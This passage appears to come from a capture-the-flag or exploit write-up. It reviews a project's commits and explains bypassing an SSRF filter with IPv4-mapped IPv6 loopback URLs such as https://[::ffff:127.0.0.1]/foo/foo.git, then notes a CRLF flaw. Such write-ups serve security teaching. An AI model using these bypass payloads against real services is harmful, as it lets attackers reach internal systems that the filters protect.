 
Looking at the latest commits, we can understand what we're going to exploit


<img src="commits.png" style="filter: drop-shadow(0 0 0.75rem crimson);">


---> So basically, we're going to bypass the SSRF protection using special IPv6 Addresses as we in the previous picture

```
https://[0:0:0:0:0:ffff:127.0.0.1]/foo/foo.git
https://[::ffff:127.0.0.1]/foo/foo.git
etc..
```

Going back to the commit history, we can see another interesting vulnerability

<img src="CRLF.png" style="filter: drop-shadow(0 0 0.75rem crimson);">